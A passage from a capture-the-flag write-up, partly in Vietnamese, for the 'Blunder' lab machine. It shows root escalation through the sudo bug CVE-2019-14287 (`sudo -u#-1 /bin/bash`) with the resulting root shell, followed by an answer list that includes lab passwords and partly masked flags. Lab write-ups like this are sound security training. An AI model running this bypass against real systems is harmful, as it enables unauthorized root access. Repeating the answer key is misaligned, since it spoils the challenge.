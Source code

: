 ```
```
### CVE-2019-14287
Google để xem cách khai thác thông báo `(ALL, !root) /bin/bash`

![image](https://hackmd.io/_uploads/r111A-bc0.png)

Kết quả trả về và xem được cách khai thác

![image](https://hackmd.io/_uploads/SJqlRW-qR.png)

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# whoami
whoami
root
```
## Post-Exploit
```
root@blunder:/# cd /root 
cd /root
root@blunder:/root# cat root.txt
cat root.txt
974ecde7badde190ad6302****
```

# Results
1. How many TCP ports are open on the remote host? --> 2
2. What is the name of the unusual file that dirbusting reveals? --> todo.txt
3. What is the version of Bludit CMS that is used? --> 3.9.2
4. What is the password for the user "fergus" on Bludit CMS? --> RolandDeschain
5. What is the 2019 CVE ID for a remote code execution vulnerability in Bludit 3.9.2? --> CVE-2019-16113
6. What is the password of the user Hugo? --> Password120
7. Submit the flag located in the hugo user's home directory. --> efa60e91be2d7dc8cc64074c*****
8. What 2019 CVE ID is related to the currently installed Sudo version? --> CVE-2019-14287
9. Submit the flag located in root's home directory. --> 974ecde7badde190ad63*****

![image](https://hackmd.io/_uploads/S1s7JGbcA.png)
